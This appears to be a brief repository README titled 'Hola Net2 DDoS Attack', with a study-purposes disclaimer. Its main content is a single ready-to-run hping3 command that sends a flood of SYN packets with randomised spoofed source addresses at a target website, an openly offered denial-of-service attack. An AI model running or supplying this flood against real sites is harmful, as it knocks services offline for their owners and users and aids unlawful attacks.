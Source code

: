 Hola Net2 DDoS Attack :D 

(This code was implemented for studies purposes, Use it wisely please)

A simply way to send as many Syn request as possibkle is having hping3 tool and lunch this Command:

      sudo hping3 --flood --rand-source <your target website>
